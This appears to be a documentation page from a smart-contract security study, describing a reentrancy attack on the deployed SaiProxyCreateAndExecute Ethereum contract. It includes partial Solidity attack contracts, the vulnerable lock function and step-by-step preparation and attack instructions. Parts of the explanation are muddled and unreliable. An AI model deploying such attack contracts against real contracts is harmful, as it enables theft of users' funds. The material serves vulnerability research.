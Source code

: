 #########
Attack 02
#########

**Contract Name**

SaiProxyCreateAndExecute

**Contract Address**

0x526af336D614adE5cc252A407062B8861aF998F5

**Transaction Count**

9987

**Invovled Ethers**

107172.49 Ethers

**Length of the Call Chain**

4 external function

**Victim Function**

``lock``

**Attack Mechanisim**

Attack code:
::

    contract TubInterface {
        constructor() payable {}
        SaiProxy s;
        address victim;
        bytes32 temp;
        address gemp;
        function setVictim(address _addr, address _gem) {
            s = SaiProxy(_addr);
            victim = _addr;
            gemp = _gem;
        }
        ...
        function cups(bytes32 cup) public returns (address, uint, uint, uint){
            return (victim, 0, 0, 0);
        }
        function gem() public view returns (TokenInterface){
            return(TokenInterface(gemp));
        }
        ...
    }

    contract TokenInterface {
        bytes32 temp;
        address tubbb;
        SaiProxy s;
        TubInterface tub = new TubInterface();
        function setVictim(address _addr, address _tub) {
            s = SaiProxy(_addr);
            tubbb = _tub;
        }
        constructor() payable {}
        ...
        function deposit() public payable{
            s.lock.value(1 ether)(tubbb, temp);
                //s.open(this);
        }
        ...
    }

Attacked code:
::

    contract SaiProxy is DSMath {
        ...
        function lock(address tub_, bytes32 cup) public payable {
            if (msg.value > 0) {
                TubInterface tub = TubInterface(tub_);

                (address lad,,,) = tub.cups(cup);
                require(lad == address(this), "cup-not-owned");

                tub.gem().deposit.value(msg.value)();
                ...
            }
        }
    }

In this case, the goal of our reentrancy is ``tub.gem().deposit.value(msg.value)();`` in the victim code. To reach our goal we need pass three conditions. Firstly we need to make sure the *msg.value* is greater than 0. Next we need to declare a new ``TuberInterface`` instance and call its ``cups`` function to return a address to the variable ``lad``. Last, we need to make sure the address stored in `lad` equals to the address of the victim contract.

**Preparation.** We call ``setVictim`` function in attack code to set the address of victim code to the variable ``_addr`` and set the address of the other attack contract ``TokenInterface`` to ``_gem``. Next we call the other ``setVictim`` function in contract ``TokenInterface`` then set the address of victim code to ``_addr`` and set ``tubbb`` an address the same as ``_addr``. 

**Attack.** The attacker call `deposit` function, it calls ``lock`` function in victim contract.  The ``if`` condition is satisfied because we our call is appended by ``.value``. Next, the contract initialize  an instance of the contract ``TubInterface`` and call ``cup`` to get the address. Unfortunately, the function involved in this attack is well manipulated and we won't let it fail. Then the contract checks whether the ``lad`` equals to the address of the victim contract. It doesn't work. We finally get to the key statement ``tub.gem().deposit`` which calls back to the `gem` function in attacker's contract. Hence, a call loop is formed and we achieved a *Reentrancy* attack.